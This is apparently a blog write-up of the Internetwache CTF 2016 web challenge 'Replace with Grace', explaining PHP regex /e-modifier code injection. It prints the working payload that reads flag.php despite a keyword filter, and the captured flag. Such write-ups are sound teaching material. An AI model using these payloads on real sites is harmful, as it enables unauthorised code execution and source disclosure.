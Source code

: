 ```yaml
---
layout: post
title:  "Internetwache CTF 2016: Replace with Grace (web 60)"
author: sigttou
categories: writeup
tags: [cat/web]
---
```


* **Category:** web
* **Points:** 60
* **Description:** 
> Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Write-up

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:
```php
/(.*)/e
```

The problem was, that the website filtered some inputs like:
- file
- open

It worked with:
```php
var_dump(show_source('flag.php'));
```

A simple, but nice challenge.
```
IW{R3Pl4c3_N0t_S4F3}
```
